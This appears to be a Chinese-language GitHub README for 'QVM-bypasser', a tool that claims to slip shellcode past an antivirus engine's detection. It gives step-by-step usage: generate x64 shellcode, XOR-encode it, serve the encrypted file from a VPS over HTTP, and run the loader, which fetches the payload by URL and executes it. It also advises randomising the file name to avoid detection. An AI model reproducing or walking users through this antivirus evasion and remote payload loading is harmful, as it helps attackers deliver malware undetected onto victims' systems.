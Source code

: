 # QVM-bypasser

使用简单的回调函数bypassQVM引擎查杀



## 使用方法

1、生成x64位的shellcode

![image-20231202143904504](https://github.com/achuang-x/QVM-bypasser/blob/master/images/1.png)


2、使用xor.exe进行异或

```
Usage: xor.exe <input_filename> <output_filename> <key>
```



![image-20231202144301920](https://github.com/achuang-x/QVM-bypasser/blob/master/images/2.png)

3、将生成的 enc.bin 文件上传到 VPS ，开启 HTTP 服务

```
python -m http.server 80
```

![image-20231202144526524](https://github.com/achuang-x/QVM-bypasser/blob/master/images/3.png)

4、执行加载

使用之前最好将文件名改一下，改成随机的

```
Usage: QVM-bypasser.exe <url> <xor_key>
```

![image-20231202144716758](https://github.com/achuang-x/QVM-bypasser/blob/master/images/4.png)

![image-20231202144833469](https://github.com/achuang-x/QVM-bypasser/blob/master/images/5.png)



## 截图

![image-20231202150806484](https://github.com/achuang-x/QVM-bypasser/blob/master/images/6.png)
